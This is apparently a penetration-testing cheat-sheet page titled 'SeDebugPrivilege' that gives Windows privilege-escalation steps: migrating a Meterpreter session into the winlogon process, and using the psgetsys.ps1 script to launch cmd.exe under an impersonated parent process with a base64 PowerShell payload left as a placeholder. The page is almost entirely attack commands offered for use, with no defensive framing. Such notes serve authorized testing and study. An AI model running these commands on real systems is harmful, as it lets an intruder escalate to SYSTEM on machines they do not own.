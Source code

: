 ```yaml
---
title: "SeDebugPrivilege"
date: 2024-8-2
tags: ["SeDebugPrivilege", "Windows", "potato", "privesc", "fullpower"]
---
```


---
### Abuse #1: Meterpreter Migrate

```bash
# Inside meterpreter
ps winlogon
```

```bash
migrate <PID>
```

### Abuse #2 : psgetsys.ps1

[psgetsys](https://github.com/decoder-it/psgetsystem)

```powershell
# Import module
. .\psgetsys.ps1
```

```powershell
ImpersonateFromParentPid -ppid <PID> -command "c:\windows\system32\cmd.exe" -cmdargs "/c <powershell #3 Base64>"
```

<br>